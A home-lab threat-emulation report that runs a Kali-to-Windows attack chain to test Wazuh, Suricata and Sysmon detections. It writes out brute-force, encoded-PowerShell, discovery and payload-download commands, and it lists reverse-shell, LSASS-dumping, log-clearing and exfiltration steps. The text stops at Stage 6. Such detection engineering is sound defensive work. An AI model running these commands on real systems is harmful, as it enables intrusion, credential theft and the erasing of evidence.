# 04 — Threat Emulation Report: Full Attack Chain

[TOC]

| Item | Value |
|---|---|
| Author | Võ Minh Khoa |
| Environment | Isolated VMware lab (Wazuh, Suricata, pfSense, Sysmon) |
| Evidence window | 2026-08-28/29 baseline; 2026-10-10 SMB login re-test; 2026-10-13 new custom detections and LSASS false-positive investigation, alert timestamps UTC |
| Sources | Two lab writeups: baseline detection engineering report and the full attacking-chain playbook |
| Related documents | [`01` setup](https://github.com/Khoavo-187/Wazuh-siem-home-lab/blob/main/docs/01-infrastructure-setup.md) · [`02` ingestion](https://github.com/Khoavo-187/Wazuh-siem-home-lab/blob/main/docs/02-log-ingestion-pipeline.md) · [`03` decoders & rules](https://github.com/Khoavo-187/Wazuh-siem-home-lab/blob/main/docs/03-Detection-engineering.md) |

---

## 1. Executive Summary

A 12-step attack chain — **Reconnaissance → Exfiltration** — was emulated against a Windows 11 endpoint to validate the custom detections described in `docs/03`. Each step maps to a MITRE ATT&CK technique and was run from a Kali Linux host inside an isolated lab.

**Current evidence-based outcome summary** (the original run and later re-tests are **separate sessions**, not proof of an uninterrupted Reconnaissance-to-Exfiltration compromise):

| Result | Stages | Supporting evidence |
|---|---|---|
| ✅ Custom rule observed on tested behavior | 2 (`100408` SMB re-test), 4, 5 (`100400`/`100407`), 6 (Suricata), **7 (later `100406`)**, 8 (older Suricata revision), **10 (later `100412`)** | Full alert JSON and existing figures; `100402` also observed in Dashboard |
| ⚠️ Built-in observation; custom correlation unresolved | 3 | Full successful SMB `4624` event under built-in `92657`; short `100410` excerpt only |
| ⚠️ Inconclusive, likely benign, or screenshot-based | 1, 8b, 9 | Unrelated pfSense DNS; **Defender `92900` LSASS false-positive candidate**; FIM screenshot |
| ❌ No confirmed outcome | 11 | No proof of completed data transfer or `100413` alert |

**Evidence updates:** the current evidence directory contains a [full custom `100406` Registry Run-key alert](../threat-emulation/evidence-logs/stage07-sysmon-registry-custom-rule.json) and [full custom `100412` Security-log-clearing alert](../threat-emulation/evidence-logs/stage10-rule-100412-excerpt.json), both dated **2026-10-13**. Earlier built-in `92302` / `63103` events are historical and must not be described as concurrently triggered for the same log.

**Stage 8b:** the actual [full LSASS access log](../threat-emulation/evidence-logs/stage08b-rule-100411-lsass-false-positive-windowsdefender.json) has `sourceImage=MsMpEng.exe`, `targetImage=lsass.exe`, `grantedAccess=0x101000`, `mpengine.dll` frames and **built-in rule `92900`**. This is consistent with legitimate Defender monitoring: **likely benign, not a ProcDump true positive**. A separate `100411` excerpt lacks the full event metadata needed to verify that custom detection. The reported telemetry does **not** establish successful LSASS credential dumping.

**Methodology:** positive detection, negative control, false-positive triage, and insufficient evidence are recorded separately. A rule's existence in the repository is not proof it fired on the victim. Same-LAN Kali–Windows traffic is not automatically a pfSense-observed WAN scan.

---

## 2. Scope, Rules of Engagement and Environment

### 2.1 Rules of engagement

- All activity ran inside an isolated lab network against systems owned by the author.
- Payloads were benign: the EICAR test string, `calc.exe` as the persistence target, and a self-written reverse shell using the standard .NET `TCPClient` (no vulnerability exploited).
- Every artifact created by the emulation is listed in [Appendix B](#appendix-b--artifacts-and-cleanup) together with its cleanup command.

### 2.2 Environment


*Figure 1 — Lab architecture and data flow.*

| Host | Role | IP |
|---|---|---|
| Kali Linux | Attacker | `192.168.60.135` (LAN) |
| Windows 11 (`LAPTOP-VF92GC15`) | Victim, Wazuh agent, Sysmon, Suricata (Npcap), FIM | `192.168.60.1` |
| Wazuh Manager | SIEM/XDR, VirusTotal integration | `192.168.60.137` |
| pfSense | Firewall and gateway, remote syslog | `192.168.60.254` |

### 2.3 Telemetry preconditions

A rule can only fire if its event exists. Before the run these items were checked or enabled:

| Layer | Requirement | Used by |
|---|---|---|
| Windows | Advanced audit policy: Logon (success and failure), Process Creation with command line | Events `4624`, `4625`, `4688` |
| Sysmon | Event IDs 1, 3, 10, 11, 13 present in the configuration | Stages 4–8b, 11 |
| Wazuh agent | Channels `Security`, `Sysmon/Operational`; Suricata `eve.json`; FIM `realtime="yes"` on the `virustotaltest` folder(only use for folder `/virustotaltest`)  | All |
| Wazuh manager | Custom rules loaded (`wazuh-logtest`), VirusTotal integration active | All |
| Environment | NTP synced on all hosts, clean dashboard baseline, start timestamp recorded (`date -u`), `procdump.exe` pre-staged | Timeline, Stage 8b |

### 2.4 Verdict criteria

| Verdict | Meaning |
|---|---|
| ✅ | A raw alert (or a screenshot of it) shows the expected behaviour was detected |
| ⚠️ | An alert exists but does not match the stage, or a different rule fired than the one designed, or the evidence is condensed |
| ❌ | No alert evidence |

---

## 3. Emulation Plan

| # | Stage | Tactic | Technique | Procedure (tool, source → target) | Telemetry expected | Detection expected |
|---|---|---|---|---|---|---|
| 0 | Preparation | — | — | Remove old Hydra session; full packet capture with `tcpdump` on Kali | pcap | — |
| 1 | Reconnaissance | Reconnaissance, Discovery | T1595, T1018 | `nmap -sS -T4 -p-`, `ping -c 5` — Kali → `192.168.60.1` | Suricata alert, pfSense log | Suricata `100300`, pfSense `100130`/`100201` |
| 2 | Brute Force | Credential Access | T1110 | `hydra` against SSH (`user.txt`, `password.txt`) — Kali → `:22` | Suricata alert, Windows `4625` | `100301`, `60122` |
| 3 | Successful Access | Initial Access | T1078 | `ssh lenovo@192.168.60.1` with the cracked credentials | Windows `4624` | `100410` (correlation) |
| 4 | Execution | Execution, Defense Evasion | T1059.001, T1027 | `powershell -NoProfile -EncodedCommand <base64>` | Sysmon EID 1 | `100401` |
| 5 | Discovery | Discovery | T1087, T1082, T1033 | `whoami`, `dir`, `net localgroup administrators`, `arp -a`, `systeminfo`, `tasklist` over SSH | Sysmon EID 1 | `100402`, `100407`, built-in `92031` |
| 6 | Payload Drop | Command and Control | T1105 | `python3 -m http.server 8000` on Kali; `curl` the EICAR file from the endpoint | Suricata alert, FIM, VirusTotal | `100306`, FIM, `87105` |
| 7 | Persistence | Persistence | T1547.001 | `reg add HKCU\...\CurrentVersion\Run /v UpdaterSvc` (target `calc.exe`) | Sysmon EID 13 | `100406` |
| 8 | Command and Control | Command and Control | T1071 | `nc -lvnp 4444` on Kali; PowerShell `TCPClient` reverse shell from the endpoint | Suricata alert, Sysmon EID 3 | `100304` |
| 8b | Credential Access | Credential Access | T1003.001 | `procdump -ma lsass.exe` through the reverse shell | Sysmon EID 10 | `100411` |
| 9 | File Lifecycle | — | — | Modify and delete files in the monitored folder | syscheck events | FIM (modified, deleted) |
| 10 | Cleanup / Anti-Forensics | Defense Evasion | T1070.001 | `wevtutil cl Security` | Security Event `1102` | `100412` |
| 11 | Exfiltration | Exfiltration | T1041 | `Compress-Archive`, then `TCPClient` sends the zip to Kali `:4445` | Sysmon EID 3 | `100413` |

---

## 4. Execution and Analysis by Stage

Each stage lists the emulated behaviour, the telemetry it produced, the alert observed, the screenshots kept in the writeup, and an analysis of what the result does and does not prove. Times are UTC (the lab's local time is UTC+7).

### Stage 0 — Preparation

```bash
# Kali
rm -f hydra.restore
sudo tcpdump -i eth0 -w full_chain_$(date +%Y%m%d_%H%M).pcap host 192.168.60.1 &
```

A packet capture for the whole chain gives an independent record to cross-check Suricata and pfSense. The capture file itself is not part of the repository.

---

### Stage 1 — Reconnaissance (T1595, T1018)

```bash
# Kali
nmap -sS -T4 -p- 192.168.60.1
ping -c 5 192.168.60.1
```



*Figure 2 — Stage 1: reconnaissance evidence screenshot (as placed in the original writeup).*

**Alert observed**

| Field | Value |
|---|---|
| Rule | `100140` — pfSense TCP burst, level 6 (earlier rule version) |
| Alert time | 2026-08-28 05:32:14 |
| Log line | `filterlog`, interface `lo0`, `pass`, UDP, `127.0.0.1` → `127.0.0.1:53` |
| Decoder | `pfsense-lab` |

**Analysis**

- **The alert is not caused by the scan.** Source and destination are the loopback address, the interface is `lo0` and the port is 53 (DNS). It is background DNS traffic on the firewall itself, not Nmap traffic from Kali.
- **pfSense is probably not the right sensor for this step.** Kali and the Windows host sit in the same `/24`, and a firewall only logs traffic that crosses it (inference). This is the east-west case that motivates the second Suricata instance on the endpoint, so the expected alert is Suricata `100300` (sid `1000002`). No raw alert for it is preserved for this run.
- **Clock offset on pfSense.** The syslog timestamp in the log line is `Aug 27 11:57:42`, while Wazuh received the event on 2026-08-28 at 05:32 UTC, a gap of about 17.5 hours. This points to a time-zone or NTP problem on pfSense and would break cross-source correlation.
- **The false positive is already addressed.** The current version of `100140` only counts connections to administrative ports (`22, 23, 445, 3389, 5900, 1433, 3306`), so loopback DNS no longer matches.

**Re-test attempt: triggering pfSense from the WAN side**

The root cause above — a same-LAN scan not necessarily transiting pfSense's own rule evaluation — led to a second idea, attempted but not completed with clean evidence:

1. Attack the pfSense **WAN** interface from outside the LAN (i.e. treat it like an internet-facing attacker, not a same-subnet neighbour): an Nmap scan or a Netcat-based port brute force directed at the WAN address.
2. Watch pfSense's own firewall decision on that traffic — **block** or **pass** — in the `filterlog`.
3. If passed, the connection is forwarded (via the WAN→LAN port-forward / NAT rule) through to the victim's LAN IP, so the same traffic should also show up endpoint-side (Suricata, Sysmon EID 3).

This is architecturally the traffic pfSense's rule tree is actually built to reason about (`srcip` outside the LAN, a real `block`/`pass` decision at the boundary) — unlike the original Stage 1 attempt, where attacker and victim share the same `/24` and pfSense mostly only sees its own background traffic.

**No usable evidence was captured.** The attempt produced events where the logged source IP did not look right — in a related Stage 2 re-test session (`192.168.60.1`, the *victim's own* LAN IP, appeared as the attacker source in one alert; see Stage 2 below) rather than a genuine external or WAN-side address. The likely cause is **NAT hairpinning**: when a host reaches the public/WAN IP through a path that pfSense ends up routing back through its own LAN interface, the original source address can be lost or rewritten, and Windows/Wazuh then report a local address instead of the real one. This has **not been confirmed** with a packet capture on both the WAN and LAN interfaces simultaneously, so treat it as a working hypothesis, not a finding.

**Verdict: ⚠️ Inconclusive** — re-run and capture the Suricata `100300` alert (see §7). The WAN-side idea above is worth repeating with `tcpdump` on both pfSense interfaces at once, to see directly whether the source IP survives the NAT hop.

---

### Stage 2 — Brute Force (T1110)

```bash
# Kali
hydra -L user.txt -P password.txt ssh://192.168.60.1
```



*Figure 3 — Stage 2: brute-force evidence screenshot (as placed in the original writeup).*

*Stage 2: Activate the custom  rule for brute force theough `smbclient`.*

**Alerts observed**

| Layer | Rule | Level | Time | Key fields |
|---|---|---|---|---|
| Network (Suricata on the endpoint) | `100301` (sid `1000003`, rev 2) | 8 | 05:45:44 | `192.168.60.135:51814` → `192.168.60.1:22`, TCP, MITRE T1110 / TA0006 |
| Host (Windows Security) | `60122` (Event `4625`) | 5 | 05:46:41 | `targetUserName: lenovo`, `logonType: 8`, process `sshd.exe`, `subStatus: 0xc000006a` (wrong password) |

**Analysis**

- **Two independent layers saw the same attack**: the network sensor counted repeated connection attempts to port 22, and the host recorded each failed logon. Either one alone would be weaker evidence.
- `logonType 8` and `sshd.exe` confirm the failures came through OpenSSH for Windows, not an interactive logon.
- **Correlation limitation, in this specific run.** This `4625` event does **not** contain an `ipAddress` field. See the 2026-10-10 re-test below — a different run of the same kind of attack *did* populate `ipAddress`, so the gap is not universal; it needs confirming whether it depends on the OpenSSH authentication path (`logonType 8` here vs. `logonType 3` in the re-test).
- Wazuh's built-in mapping for `60122` is T1531 (Account Access Removal). The brute-force meaning comes from `100301`, not from the built-in tag.
- Hydra initially stopped with "all children disabled"; OpenSSH `MaxStartups` throttling was the cause and was resolved by raising it and lowering the thread count.

**Verdict: ✅ Detected** (custom `100301` plus built-in `60122`).

**2026-10-10 re-test — `100408` confirmed firing correctly**

```bash
# Kali — re-test, 2026-10-10: Hydra against SMB instead of SSH
hydra -L user.txt -P password.txt smb://192.168.60.1
```

A later, standalone re-test of the brute-force → logon sequence (separate session, not part of the original 2026-08-28 chain) produced a raw alert from the custom correlation rule itself:

| Field | Value |
|---|---|
| Rule | `100408` — "Windows: Multiple failed logons... possible brute force", level 10 (T1110) |
| Time | 2026-10-10 17:37:52 (`firedtimes: 3`) |
| Key fields | `targetUserName: lenovo`, `ipAddress: 192.168.60.135`, `logonType: 3`, `authenticationPackageName: NTLM`, `workstationName: KALI` |

**Different protocol this time: SMB, not SSH.** The re-test used Hydra against the **SMB** service (`smb://`) rather than SSH — confirmed, not inferred. This fully explains the field differences from the original run: `logonType 3` (Network) and `authenticationPackageName: NTLM` are the standard signature of SMB/CIFS authentication (`NtLmSsp`), versus `logonType 8` for the original OpenSSH password exchange. `ipAddress` being populated here is consistent with SMB's logon path specifically — it does not resolve the earlier SSH `logonType 8` gap (Stage 2's first attempt), which is a separate, still-open question (see Gap Analysis). This is the first raw evidence that `100408` itself (not just the underlying `60122`) fires as designed, with the correct source IP. A separate Discover search for `100410` around this time found none — only built-in `60106`/`60118` entries (Figure 13, Appendix A), consistent with the precedence finding below.

**Suricata coverage for SMB, not yet checked.** The custom Suricata rule for this service is `100303` (SMB Port Probe, sid `1000005`), not `100301` (SSH, which covers the original run). No Suricata evidence was captured for this specific re-test session — see the gap analysis.

A separate, earlier attempt on 2026-10-09 also produced a `100408` alert (Figure 12, Appendix A), but with `ipAddress` showing `192.168.60.1` — the **victim's own LAN address** rather than Kali's — a clear artifact rather than a genuine attacker IP. This matches the WAN-side NAT-hairpin hypothesis noted in Stage 1: if that attempt was made against the WAN-facing address through a reflected/hairpinned path, the true source can get lost. Not confirmed; flagged here for the same reason as Stage 1.

See [`threat-emulation/evidence-logs/stage02-rule-100408-bruteforce-retest.json`](../threat-emulation/evidence-logs/stage02-rule-100408-bruteforce-retest.json).

---

### Stage 3 — Successful Access (T1078)

```bash
# Kali — log in with the cracked credentials
ssh lenovo@192.168.60.1
```



*Figure 4 — Stage 3 evidence screenshot (as placed in the original writeup).*

**First attempt (2026-08-28) — alert observed**

| Field | Value |
|---|---|
| Rule | `60115` — user account locked out, level 9 |
| Event | Windows `4740` for account `LENOVO` |
| Time | 05:46:41 (event time) — the same second as a failed logon of Stage 2 |
| Mapping | T1110, T1531 |

**Analysis — first attempt**

- **The evidence does not prove a successful login.** Event `4740` shows that the brute force locked the account, which is an impact of Stage 2. The goal of this stage, valid-account use, was not demonstrated.
- A locked account would also have blocked the cracked credentials, so the lockout likely prevented this stage from succeeding at that moment.

**2026-10-10 re-test — successful logon captured**

```bash
# Kali — connect with the credentials Hydra recovered
smbclient //192.168.60.1 -U 'Lenovo'
```

Following the account unlock and the Stage 2 re-test above (Hydra against SMB, then `smbclient` to confirm the cracked credentials), a genuine successful logon appeared:

| Field | Value |
|---|---|
| Rule | `92657` — built-in "Successful Remote Logon Detected", level 6 |
| Event | Windows `4624` for account `LENOVO` |
| Time | 2026-10-10 17:38:11 (18 seconds after the `100408` alert in Stage 2) |
| Key fields | `targetUserName: LENOVO`, `ipAddress: 192.168.60.135`, `logonType: 3`, `authenticationPackageName: NTLM`, `workstationName: KALI` |
| Rule's own mapping | T1550.002 (Pass the Hash), T1078.002 (Domain Accounts), T1021.001 (Remote Desktop Protocol) — **the T1021.001/RDP tag is the same built-in boilerplate issue noted below; the real technique here is T1021.002 (SMB/Windows Admin Shares)** |

See [`threat-emulation/evidence-logs/stage03-rule-92657-successful-logon.json`](../threat-emulation/evidence-logs/stage03-rule-92657-successful-logon.json). Figure 14 (Appendix A) is the Discover screenshot for this session, also showing `67028` ("Special privileges assigned to new logon", level 3) immediately after, and the `60122` failed-logon burst immediately before — the same sequence as the raw alerts.

**Analysis — re-test**

- **The goal of this stage is now demonstrated**: a real `4624` following a real failed-logon burst, 18 seconds apart, same `targetUserName` and `ipAddress` as Stage 2's `100408`.
- **Built-in rule, not the custom one — same pattern as Stages 5, 7 and 10.** The custom `100410` (`if_sid 60106`, `if_matched_sid 100408`) did not appear; `92657` did. `92657` is very likely another child of `60106` (the base "logon success" rule), making this the same sibling-precedence issue already confirmed for `100406`/`92302`. See `docs/03`, §3.3 (`100410`) and §5, item 2, for the fix (`if_sid 92657` instead of `60106`) — not yet applied.
- **Confirmed: this is SMB, not SSH and not RDP.** `92657`'s built-in description guesses "Possible RDP connection" — that wording is generic boilerplate Wazuh attaches to any NTLM `logonType 3` network logon, and it is misleading here: the access was `smbclient`, not RDP. The `logonType 3`/NTLM/`NtLmSsp` fields are the standard SMB signature, matching Stage 2's re-test above. This stage's *first* attempt (SSH, `logonType 8`) and this re-test (SMB, `logonType 3`) are two different access methods proving the same underlying idea — a successful logon following a credential-stuffing burst — over two different services.
- Because `ipAddress` was populated correctly here, the earlier concern (Stage 2) that SSH logons might never populate it, and so `100408`/`100410`'s `same_field ipAddress` correlation could never match, does not apply to this run — the correlation condition itself is satisfiable; only the sibling-rule precedence stopped `100410` from being the one reported.

**Verdict: ⚠️ Detected, but by a built-in rule (`92657`)** — joins Stages 5, 7 and 10 in the same precedence pattern; custom `100410` not yet proven.

---

### Stage 4 — Execution (T1059.001, T1027)

```powershell
$cmd   = 'whoami; hostname; ipconfig /all'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$enc   = [Convert]::ToBase64String($bytes)
powershell.exe -NoProfile -EncodedCommand $enc
```

**Alert observed**

| Field | Value |
|---|---|
| Rule | `100401` — encoded PowerShell command, level 10 (T1027, T1059.001) |
| Time | 2026-08-28 06:34:55 |
| Process | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`, integrity `High` |
| Parent | `powershell.exe` |
| User | `LAPTOP-VF92GC15\LENOVO` |
| Command line | `powershell.exe -NoProfile -EncodedCommand dwBoAG8AYQBtAGkAOwAg…` |
| Decoded payload | `whoami; hostname; ipconfig /all` |

**Analysis**

- The Base64 string is UTF-16LE, the encoding PowerShell expects, and decodes cleanly to the three discovery commands. Seeing the full command line in Sysmon makes the obfuscation trivial to reverse during triage.
- **Why it fired:** the evidence version of `100401` is a child of `100400`, which requires the parent process to be PowerShell. The test ran PowerShell from a PowerShell session, so the chain matched. A launch from `cmd.exe` or `explorer.exe` would not have matched; the version now in the repository is independent of the parent and also accepts the `-e` and `-ec` abbreviations.
- No screenshot was kept for this stage; the raw alert is the evidence.

**Verdict: ✅ Detected** (custom `100401`).

---

### Stage 5 — Discovery (T1087, T1082, T1033)

```cmd
:: executed over the SSH session from Kali
whoami
dir
net localgroup administrators
arp -a
systeminfo
tasklist
```



*Figure 5 — Stage 5 evidence screenshot (as placed in the original writeup).*

*Stage 5 evidence for custom rule, trigger by the command line.*

**Alert observed**

| Field | Value |
|---|---|
| Rule | `92031` — built-in Sysmon rule, Account Discovery (T1087) |
| Time | 2026-08-28 06:48:04 |
| Process | `net1.exe`, spawned by `net.exe` |
| Command line | `net1 localgroup administrators` |
| User / integrity | `LAPTOP-VF92GC15\LENOVO` / `High` |

**Analysis — first attempt**

- Discovery was detected, but by a **built-in rule**. The custom `100400` and `100402` were the expected triggers and were not observed.
- **The custom rules did not target these commands at the time.** `100402` matched only `whoami`, `systeminfo`, `tasklist` and `nltest`, so `net.exe`, `net1.exe`, `arp.exe` and `dir` fell outside its scope. `100400` required a PowerShell parent specifically, but the commands ran from an SSH command shell.
- `100407` (three discovery binaries by the same user within 120 seconds) should have been satisfied by `whoami`, `systeminfo` and `tasklist` run in close succession, but no alert for it was captured.
- Known false positive: processes spawned from `ossec-agent\` under `SYSTEM` (the Wazuh SCA module) also trigger `T1087`. Checking `currentDirectory` and `user` separates it from attacker activity.

**2026-10-13 re-test — custom rules confirmed firing**

```cmd
:: executed via a PowerShell parent this time
whoami
tasklist
systeminfo
net
net1
arp -a
```
Following a rewrite of the Sysmon rules (scope widened, see `docs/03` §3.3), a re-test from a PowerShell parent produced three custom-rule alerts:

| Rule | Level | Time (UTC) | What fired |
|---|---|---|---|
| `100402` | 6 | 05:04:30 | `whoami.exe` — "Reconnaissance binary executed" |
| `100402` | 6 | 05:04:32 | `tasklist.exe` — "Reconnaissance binary executed" |
| `100407` | 12 | 05:04:34 | Correlation: `whoami` → `tasklist` → `systeminfo` within 4.2s (`frequency=3` met) |
| `100400` | 5 | 05:04:38 | `ARP.EXE` spawned by `powershell.exe` — "Shell spawned child process" |
| `100402` | 6 | 05:04:42 | `net1.exe` — "Reconnaissance binary executed" |
| `100402` | 6 | 05:04:42 | `net.exe` — "Reconnaissance binary executed" |

See [`threat-emulation/evidence-logs/stage05-rule-100407-recon-burst.json`](../threat-emulation/evidence-logs/stage05-rule-100407-recon-burst.json) and [`stage05-rule-100400-shell-child-arp.json`](../threat-emulation/evidence-logs/stage05-rule-100400-shell-child-arp.json) for the raw alerts (`100402`'s own raw alert was not captured; the table above is read from Discover).

**Analysis — re-test**

- **`100402`'s scope was widened** to also match `net.exe` and `net1.exe` (confirmed by the raw Discover rows); whether `arp.exe` was added to the same regex is **not confirmed** — `ARP.EXE` only triggered the generic `100400` ("Shell spawned child process"), not a `100402` "Reconnaissance binary executed" alert. If parity with `net`/`net1`/`whoami` is intended, add `arp` to `100402`'s pattern.
- **`100407`'s correlation logic is confirmed correct**: it fired once, exactly when the 3rd qualifying binary (`systeminfo`) landed within the 120-second window of the first (`whoami`). The later `net`/`net1` pair (2 matches) correctly did **not** trigger a second `100407`, since 2 is below the `frequency=3` threshold.
- **`100400`'s known bug is fixed.** The earlier version truncated the description at `$(win.eventdata.user` (missing closing parenthesis, `docs/03` §5 item 13). The new alert renders the full value (`User: LAPTOP-VF92GC15\LENOVO`). The rule was also renamed/widened from "PowerShell spawned process" (group `powershell_child`) to "Shell spawned child process" (group `shell_child`) — **not confirmed** whether the `parentImage` condition itself was broadened beyond `powershell.exe` (e.g. to include `cmd.exe`), or only the description/group text changed.
- **Whether built-in `92031` still fires alongside the custom rules is not confirmed** — it does not appear in the captured Discover rows for this window, but the rows shown may not be exhaustive.

**Verdict: ✅ Detected by custom rules** (`100402`, `100407`) for the 2026-10-13 re-test, with `100400` also confirmed working correctly; `arp.exe`-specific coverage and the exact rule-logic changes still need the current rule XML to document precisely.

---

### Stage 6 — Payload Drop (T1105)

```bash
# Terminal 1 (Kali)
python3 -m http.server 8000
```

```cmd
:: Terminal 2 — SSH session on the victim
curl http://192.168.60.135:8000/eicar-facebook.com -o "C:\Users\LENOVO\Downloads\virustotaltest\eicar2.com"
```







*Figures 6–8 — Stage 6: the three alerts raised by one download (Suricata, FIM, VirusTotal), as placed in the original writeup.*

**Three layers fired from one action**

| Layer | Rule | What it shows |
|---|---|---|
| Network | `100306` (sid `1000008`) | `GET /eicar-facebook.com` from `192.168.60.135:8000` to `192.168.60.1:58826`, user-agent `curl/8.21.0`, HTTP 200, 69 bytes, MITRE T1105 — alert time 2026-08-28 07:09:53 |
| Host file | FIM (syscheck) "file added", level 5 | A new file appeared in the monitored folder |
| Reputation | `87105` — VirusTotal, level 12 | Hash looked up automatically; earlier lab run: `found: 1`, `positives: 62`, md5 `44d88612fea8a8f36de82e1278abb02f` |

**Analysis**

